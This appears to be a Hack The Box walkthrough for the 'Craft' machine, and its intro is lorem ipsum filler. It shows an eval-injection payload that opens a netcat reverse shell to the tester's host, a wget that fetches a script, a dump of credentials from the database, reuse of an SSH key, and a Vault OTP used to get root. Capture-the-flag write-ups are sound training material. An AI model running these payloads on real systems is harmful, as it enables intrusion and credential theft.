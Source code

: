 ```yaml
---
layout: single
title: Craft - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-10-13
classes: wide
header:
  teaser: /assets/images/htb-writeup-craft/craft_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-craft/craft_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. nmap -Pn -sC -sV -n 10.10.10.110
    22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
    443/tcp open  ssl/http nginx 1.15.8
    6022/tcp open x11

2. Access HTTPS and look around, notice that gogs.craft.htb and api.craft.htb is not reachable (icons in top right corner of the page).
   Add the URLs in /etc/hosts:
    10.10.10.110  gogs.craft.htb api.craft.htb

3. Look around on gogs.craft.htb and you can find a test script by Dinesh, containing his username and password (dinesh:4aUh0A8PbVJxgd)
    https://gogs.craft.htb/Craft/craft-api/commit/10e3ba4f0a09c778d7cec673f28d410b73455a86

    Using these credentials we can get a token from the API (https://api.craft.htb/api/) or using curl.
      API: https://api.craft.htb/api/

      CURL: curl -k -u dinesh:4aUh0A8PbVJxgd https://api.craft.htb/api/auth/login
        {"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcwNjA5ODM0fQ.WRjbAWd7WEpOhoL34hSlGmA92c2bCtYmboNKPG1Oie8"}

4. With the credentials and token, we now have a way to POST/PUT information onto the server, now we need to find a way to exploit this.
   Login as Dinesh on gogs.craft.htb, add your SSH-key and download the repository. Looking through the files we can find the Source Code for brew.py.
   Looking through brew.py we can find that they use a eval-function for input validation of 'abv', this makes it vulnerable for Code Injection.

   NOTE: You don't need to download the files, they can also be viewed directly on gogs.craft.htb, but I think it's easier to download

   # make sure the ABV value is sane.
   if eval('%s > 1' % request.json['abv']):
       return "ABV must be a decimal value less than 1.0", 400
   else:
       create_brew(request.json)
       return None, 201

5. Exploit the abv eval-function.
   Start netcat and send a POST through the API. Capture it in burp and edit the request by adding a valid token (created by Dinesh) and inject desired code in the abv-field.

      POST /api/brew/ HTTP/1.1
      Host: api.craft.htb
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
      Accept: application/json
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      Referer: https://api.craft.htb/api/
      content-type: application/json
      origin: https://api.craft.htb
      Content-Length: 96
      Connection: close
      X-Craft-API-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcxMTMzMDkwfQ.m2NfNIDs-bqUcuqRzYXITIQ5lWXHtENnijqLiIcMgMQ

      {
        "id": 2352,
        "brewer": "string",
        "name": "string",
        "style": "string",
        "abv": "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4488 >/tmp/f')"
      }

      root@p3:/opt/htb/machines/craft# nc -lvnp 4488
        listening on [any] 4488 ...
        connect to [10.10.14.12] from (UNKNOWN) [10.10.10.110] 42163
        /bin/sh: can't access tty; job control turned off
        /opt/app #

6. At first glance you are user root, but you can't access any flags, seems like we are in a docker and need to break out.
   Looking through the scripts and .gitignore there are a lot of references to settings.py, looking in that file we find a db user and password. (craft:qLGockJ6G2J75O)
   The script dbtest.py calls settings.py to get information from the database brew. In craft_api/api/database/models.py we can find a second database, User.
   Download dbtest.py and edit to call user database. Notice that we also need to change result from cursor.fetchone() to cursor.fetchall() to get all info within the database.

   root@p3:/opt/htb/machines/craft/craft-api# cat exp-db.py
     #!/usr/bin/env python

     import pymysql
     from craft_api import settings

     # test connection to mysql database

     connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                  user=settings.MYSQL_DATABASE_USER,
                                  password=settings.MYSQL_DATABASE_PASSWORD,
                                  db=settings.MYSQL_DATABASE_DB,
                                  cursorclass=pymysql.cursors.DictCursor)

     try:
         with connection.cursor() as cursor:
             sql = "SELECT `id`, `username`, `password` FROM `user`"
             cursor.execute(sql)
             result = cursor.fetchall()
             print(result)

     finally:
         connection.close()

  root@p3:/opt/htb/machines/craft/craft-api# python3 -m http.server 8888

  /opt/app # wget http://10.10.14.12:8888/exp-db.py
    Connecting to 10.10.14.12:8888 (10.10.14.12:8888)
    exp-db.py            100% |********************************|   664  0:00:00 ETA

  /opt/app # chmod +x exp-db.py
  /opt/app # python exp-db.py
    [{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]

7. Gilfoyle reuses his credentials for gogs.craft.htb, login to his account and you'll find his public and private SSH-keys. Download the private key, give it chmod 600, and SSH with same creds again.

    root@p3:/opt/htb/machines/craft# ssh gilfoyle@10.10.10.110 -i id_rsa-gilf

      .   *   ..  . *  *
      *  * @()Ooc()*   o  .
      (Q@*0CG*O()  ___
      |\_________/|/ _ \
      |  |  |  |  | / | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | \_| |
      |  |  |  |  |\___/
      |\_|__|__|_/|
      \_________/

      Enter passphrase for key 'id_rsa-gilf':
      Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

      The programs included with the Debian GNU/Linux system are free software;
      the exact distribution terms for each program are described in the
      individual files in /usr/share/doc/*/copyright.

      Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
      permitted by applicable law.
      Last login: Mon Oct 14 07:18:13 2019 from 10.10.14.21
    gilfoyle@craft:~$

8. Grab user-flag.
    gilfoyle@craft:~$ cat /home/gilfoyle/user.txt
      bbf4****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Login with Gilfoyle's creds on gogs.craft.htb, in the repo craft-infra you'll find a folder named vault and within it secrets.sh
    Vault is used to provide one-time passwords (OTP) for SSH login, I google'd 'vault ssh' and the first link I found explains how to request a OTP.
    https://learn.hashicorp.com/vault/secrets-management/sm-ssh-otp#step-3-request-an-otp

    In their example they write:
      vault write ssh/creds/otp_key_role ip=<REMOTE_HOST_IP>

    Trying this gives us an error: * Role "otp_key_role" not found
    Looking at secrets.sh we find that the 'vault write'-string ends with root_otp, lets try that instead:
      gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=10.10.10.110
      Key                Value
      ---                -----
      lease_id           ssh/creds/root_otp/bdbe45d6-24b0-6a02-8534-d37bbb3f54c5
      lease_duration     768h
      lease_renewable    false
      ip                 10.10.10.110
      key                1762e6a1-f975-61f8-814e-f7d65a2a1f51
      key_type           otp
      port               22
      username           root

    NOTE: The key value is the OTP to use during SSH authentication.

2. SSH with the OTP-creds generated and grab root.txt.
    root@p3:/opt/htb/machines/craft# ssh root@10.10.10.110
    root@craft:~# cat root.txt
      831d****************************
